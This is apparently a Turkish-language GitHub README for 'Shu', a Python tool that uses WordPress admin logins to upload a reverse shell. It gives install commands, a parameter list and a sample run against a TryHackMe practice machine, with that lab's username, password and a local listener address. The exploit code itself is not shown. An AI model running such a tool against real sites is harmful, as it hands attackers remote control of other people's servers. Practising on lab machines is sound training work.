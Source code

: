 # Shu
Shu, hazır içerik yönetim sistemlerinin zayıflıklarından yararlanarak reverse shell yükleyen bir programdır.

## Programın indirilmesi ve kurulması

```
git clone https://github.com/Narisca/Shu/
cd Shu
pip3 install -r requirements.txt
```

Bu komutları kullanarak programı indirip kurduktan sonra `python3 shu.py --help` komutunu kullanarak programı nasıl çalıştırabileceğinizi öğrenebilirsiniz.

![4](https://github.com/Narisca/Shu/assets/165813191/0efbd39a-d976-461d-ba17-b329aa65b53f)

## Örnek kullanm

Örnek olması amacıyla tryhackme.com platformunda bulunan mr.robot makinesi üzerinde deneyeceğim.

```
python3 shu.py --target http://10.10.236.255/wp-login.php --username elliot --password ER28-0652 --local-host 10.9.0.25 --local-port 4444 --plugin wordpress
```

![3](https://github.com/Narisca/Shu/assets/165813191/9a0ddbf2-1965-4322-affb-a1086365f3ce)

## Parametreler

```
--target-url,  -t    : Hedef sitenin giriş sayfasını belirtmenizi sağlar.
--plugin,      -x    : Hedef sitenin içerik yönetim sistemini belirtmenizi sağlar..
--username,    -u    : Kullanıcı adını belirtmenizi sağlar.
--password,    -p    : Kullanıcı şifresini belirtmenizi sağlar.
--local-host,  -L    : Yerel ağ adresinizi belirtmenizi sağlar.
--local-port,  -P    : Dinlenilen port'u berlirtmenizi sağlar.
```

## Kullanılabilir hazır içerik yönetim sistemleri
- wordpress
